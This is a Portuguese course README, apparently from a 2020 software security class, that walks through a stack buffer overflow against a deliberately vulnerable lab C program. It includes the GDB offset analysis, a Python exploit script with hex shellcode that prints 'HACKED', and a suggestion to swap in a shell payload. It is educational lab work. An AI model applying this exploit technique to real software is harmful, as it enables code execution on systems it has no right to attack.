


# Segurança de Software 2020

## 1 - HACKED VIRUS
### Descrição
Ataque por Buffer Overflow a um programa em C que lê ficheiro e escreve o seu conteúdo em memória.

#### Compilação
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack
```

#### Ferramentas utilizadas
* [GDB GEF](https://github.com/hugsy/gef) - Debbug
* [Python](https://www.python.org/) - Desenvolvimento do exploit
* [Objdump](https://sourceware.org/binutils/docs/binutils/objdump.html) - Visualização

#### Ficheiros auxiliares
* teste_stack_exec.c - Verificar compilação.
* findPrintf.c - Encontrar endereço da função printf.
* Virus.c - Para compilar o virus pretendido.

#### Passos
* Visualização do código fonte (stack.c)
```c
void foo(char *str, int s)
{
    char buffer[32];
    /* buffer overflow here */
    cpy(buffer, str, s);
}
```
* Causa erro
```bash
python -c 'print "A"*8*5' > smasher; ./stack
```
* Debbug (GDB)
```bash
gdb stack
```
Meter um BreakPoint no fim da função foo, antes de haver um retorno à main e correr.
```bash
gef> disas foo
```
```bash
gef> b * 0x0000000000401198
```
```bash
gef> run
gef> fin
```
Como se pode ver na imagem seguinte,  o $rip (0x0000000000401206) está a apontar para a posição de memória da função main, de forma a continuar o fluxo de programa normalmente. Vamos tentar perceber em que sitio da memoria este apontador está.



 Vamos agora ver com mais atenção o conteúdo da stack, utilizando como referencia o $rdi.
 ```bash
gef> x/100x 0x00007fffffffdf90 - 32
```
Como podemos ver na imagem seguinte, encontrámos os nossos  32 "A"'s (0x41) na stack, será que encontramos também o endereço de retorno? Terá que conter, como já vimos, o endereço: 0x0000000000401206
Na imagem seguinte encontramos o nosso target!



Assim sendo, podemos agora concluir que para escrever o nosso exploit de forma a que corra o nosso vírus, teremos que chegar à posição de retorno e escrever lá um endereço a nosso favor. Para além dos 32 bytes do buffer, temos ainda o $ebp com 8 bytes. sendo os próximos 8 bytes para o endereço de retorno. 

* Compilar virus
Vamos compilar o nosso virus e passá-lo para hexadécimal de forma a ser mais fácil a sua inserção no ficheiro.
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack virus.c -o virus
```
Agora vamos copiar o código assembly para um ficheiro.
```bash
objdump virus -d
```
Vamos então começar a escrever o nosso exploit em Python
```python
buf = ('A' * 32).encode() #41
ebp = ('B' * 8).encode()  #42
call_virus = b'\xc0\xdf\xff\xff\xff\x7f\x00\x00'

virus =  b'\x55\x48\x89\xe5\x48\x83\xec\x20'
virus += b'\x89\x7d\xec\x48\x89\x75\xe0\xc6'
virus += b'\x45\xf8\x48\xc6\x45\xf9\x41\xc6'
virus += b'\x45\xfa\x43\xc6\x45\xfb\x4b\xc6'
virus += b'\x45\xfc\x45\xc6\x45\xfd\x44\xc6'
virus += b'\x45\xfe\x0a\xc6\x45\xff\x00\x48'
virus += b'\x8d\x45\xf8\x48\xba\x20\xea\xe4'
virus += b'\xf7\xff\x7f\x00\x00\x48\x89\xc7'
virus += b'\xb8\x00\x00\x00\x00\xff\xd2\xeb'
virus += b'\xe6\x0f\x1f\x44\x00\x00\x00\x00'

exploit = (buf + ebp + call_virus + virus)

file_name = 'smasher'
f = open(file_name, 'wb') #write bytes
f.write(exploit)
f.close()
```

Vamos então ver se resultou.

```bash
python exploit.py
gdb stack
gef> run
#HACKED
#HACKED
#HACKED
#HACKED
#...
```
# Video
<video src="https://www.youtube.com/watch?v=kXfYOLqtfGQ&t=" width="320" height="200" controls preload></video>

# EXTRA!

 No ficheiro exploit.py experimente correr uma shell!
 
 ```python
#exploit = (buf + ebp + call_virus + virus)
exploit = (buf + ebp + call_virus + shell)
 ```
